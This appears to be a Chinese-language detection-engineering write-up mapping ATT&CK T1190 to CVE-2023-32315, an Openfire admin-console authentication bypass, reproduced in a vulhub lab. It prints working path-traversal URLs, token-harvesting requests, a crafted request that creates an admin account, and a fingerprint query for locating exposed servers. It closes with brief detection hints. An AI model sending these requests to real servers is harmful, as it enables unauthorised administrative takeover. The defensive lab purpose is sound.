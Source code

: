 # T1190-CVE-2023-32315-Openfire管理后台认证绕过

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

Openfire是根据开放源Apache许可获得许可的实时协作（RTC）服务器。

在Openfire版本4.7.4和4.6.7及以前，Openfire的Web管理后台存在一处目录穿越漏洞，这将允许攻击者绕过权限校验访问所有受限页面。

空间测绘查询语句：body="Openfire"

参考链接：

- <https://www.zhousa.com/archives/24514.html>
- <https://www.christ1na.cn/index.php/2023/06/26/cve-2023-32315-openfire%E7%AE%A1%E7%90%86%E5%90%8E%E5%8F%B0%E8%AE%A4%E8%AF%81%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/>
- <https://cn-sec.com/archives/1854597.html>

## 检测日志

HTTP.log

## 测试复现

### 漏洞环境

漏洞环境使用vulhub docker环境

执行如下命令启动一个4.7.4版本的Openfire:

```yml
docker-compose up -d
```

服务器启动后，访问`http://your-ip:9090`你将会被强制跳转到登录页面。

### 漏洞复现

#### 步骤1，验证漏洞是否存在

启动openfire服务器后，访问以下路径，验证漏洞是否存在。

```
http://localhost:9090/setup/setup-s/%u002e%u002e/%u002e%u002e/log.jsp
```

成功未授权访问日志文件，证明存在Openfire管理后台认证绕过漏洞

#### 步骤2，获取JSESSIONID和csrftoken

访问以下路径，获取获取JSESSIONID和csrftoken

```
http://localhost:9090/setup/setup-s/%u002e%u002e/%u002e%u002e/user-groups.jsp

http://localhost:9090/login.jsp?url=%2F%2Fsetup%2Fsetup-s%2F%25u002e%25u002e%2F%25u002e%25u002e%2Fuser-groups.jsp
```

#### 步骤3，构造数据包创建用户

构造数据包如下：

```
GET /setup/setup-s/%u002e%u002e/%u002e%u002e/user-create.jsp?csrf=csrftoken&username=admin&name=&email=&password=admin&passwordConfirm=admin&isadmin=on&create=Create+User HTTP/1.1
Host: localhost:9090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: csrf=csrftoken
```

更多利用方法，可参考链接中的内容。

POC地址：

- <https://github.com/tangxiaofeng7/CVE-2023-32315-Openfire-Bypass>

这里直接使用脚本进行模拟测试：

![脚本自动化](1.png)

## 测试留痕

![jsessionid](jsessionid.png)

![csrftoken](csrftoken.png)

流量包见同目录下pcap文件。

## 检测规则/思路

研判分析要点：

- 结合流量上下文，URL路径和返回信息
- 关注状态码信息，并非都是200

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

CVE-2023-32315 Openfire管理后台认证绕过漏洞复现

<https://www.christ1na.cn/index.php/2023/06/26/cve-2023-32315-openfire%E7%AE%A1%E7%90%86%E5%90%8E%E5%8F%B0%E8%AE%A4%E8%AF%81%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/>

盘点一下OpenFire的漏洞CVE-2023-32315

<https://104.149.12.130/index.php/2023/06/16/openfire-history.html#title-6>
